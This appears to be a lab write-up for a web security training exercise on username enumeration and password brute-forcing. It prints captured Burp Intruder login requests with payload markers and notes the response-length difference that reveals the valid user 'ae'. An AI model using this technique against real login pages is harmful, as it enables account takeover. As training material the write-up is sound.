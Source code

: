 Greeted with a page filled with blog posts. 

I tried to see if the names under each blog post could be a valid username by typing the name into the login page and checking the output : 

![Screenshot 2024-04-30 at 4.32.55 PM](images/Screenshot%202024-04-30%20at%204.32.55%20PM.png)
Hence, this means that we have to brute-force both the username and password. 

I captured the request from logging in and sent it to Burp Intruder, in order to modify the username parameter and brute-force the username first. 

```Burp 
POST /login HTTP/2
Host: 0a2400a6045b2cdb809358ed00da002b.web-security-academy.net
Cookie: session=qMCIykd10A4fYWKR2rDfAVfGm7jObRjN
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a2400a6045b2cdb809358ed00da002b.web-security-academy.net
Referer: https://0a2400a6045b2cdb809358ed00da002b.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=§wiener§&password=peter
```

Using the given username list, I input it into the payload list as shown : 

![Screenshot 2024-04-30 at 4.50.37 PM](images/Screenshot%202024-04-30%20at%204.50.37%20PM.png)
I commenced the output and received the following, where I noticed that the `Length` for username `ae` was 3250 as opposed to 3248 for the rest :
![Screenshot 2024-04-30 at 4.52.13 PM](images/Screenshot%202024-04-30%20at%204.52.13%20PM.png)

I then commenced my second sniper attack using Burp Intruder, so as to brute-force the password for user `ae`. 

```Burp 
POST /login HTTP/2
Host: 0a2400a6045b2cdb809358ed00da002b.web-security-academy.net
Cookie: session=qMCIykd10A4fYWKR2rDfAVfGm7jObRjN
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a2400a6045b2cdb809358ed00da002b.web-security-academy.net
Referer: https://0a2400a6045b2cdb809358ed00da002b.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=ae&password=§peter§
```

![Screenshot 2024-04-30 at 4.54.46 PM 2](images/Screenshot%202024-04-30%20at%204.54.46%20PM%202.png)
I received the following, where I sorted the 'Length' in ascending order : 

![Screenshot 2024-04-30 at 4.58.27 PM](images/Screenshot%202024-04-30%20at%204.58.27%20PM.png)

Using the username `ae` and password `superman` I was able to successfully log into the account!

